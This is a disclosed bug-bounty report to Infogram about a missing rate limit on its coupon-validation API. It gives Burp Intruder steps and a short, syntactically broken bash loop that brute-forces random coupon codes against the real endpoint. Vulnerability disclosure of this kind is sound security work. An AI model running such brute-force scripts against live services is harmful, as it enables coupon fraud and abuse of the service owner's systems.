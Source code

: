 # Bruteforcing Coupons

## Report Details
- **Report ID**: 288846
- **URL**: https://hackerone.com/reports/288846
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-11-09T15:57:10.803Z
- **Disclosed**: 2017-12-12T19:48:01.100Z

## Reporter
- **Username**: t-pwn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: infogram

## Vulnerability Information
Hi,

while i was fuzzing for an API endpoints i found this endpoint: https://infogram.com/api/discounts
the first thing came on my mind is bruteforcing the coupon codes so i gave it a try and it worked!
there's no rate limit on that endpoint so an attacker could use it to bruteforce the coupon codes and filter the results to snipe the "valid":true response

##Steps to reproduce:

+ intercept the request using burpsuite or any proxy tool you would like to use

+ send the request to the intruder

+ configure the payload position

     {F238091}

+ start the attack

i wrote a simple script in bash to do the operation

```

#!/bin/bash

while [ 1 ]
do

  coupon=$(cat /dev/urandom | tr -dc 'a-z0-9' | fold -w 6 | head -n 1)
  curl=$(curl -i -s -k  -X $'GET' \
    -H $'X-Requested-With: XMLHttpRequest' \
    -b $'Cookies:XXXXXXX' \
    $'https://infogram.com/api/discounts/$coupon')

  if [[ $curl == *"valid":true* ]]
    echo "$coupon is valid";
  else
    echo "$coupon is invalid";
  
break;

```

Thanks.

## Attachments
- Screenshot_from_2017-11-09_10-28-27.png
